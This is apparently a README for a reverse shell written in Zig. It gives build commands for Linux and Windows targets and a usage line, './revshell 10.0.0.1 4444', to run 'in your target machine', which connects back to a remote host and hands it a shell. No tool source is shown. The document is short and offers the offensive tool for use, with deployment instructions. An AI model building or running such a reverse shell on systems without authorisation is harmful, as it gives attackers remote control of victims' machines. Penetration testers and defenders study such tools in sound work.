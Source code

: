# Zig Reverse Shell 

## Download

<!-- Pre-compiled version is available in [releases](https://github.com/hideckies/xex/releases). -->

<br />

## Build from Source

Clone the repository and build for your target platform:

```sh
# Linux target
zig build -Dtarget=x86_64-linux

# Windows target
zig build -Dtarget=x86_64-windows
```

After that, the executable is generated under `zig-out/bin` directory.

<br />

## Usage

Execute the revshell in your target machine:

```sh
./revshell 10.0.0.1 4444
```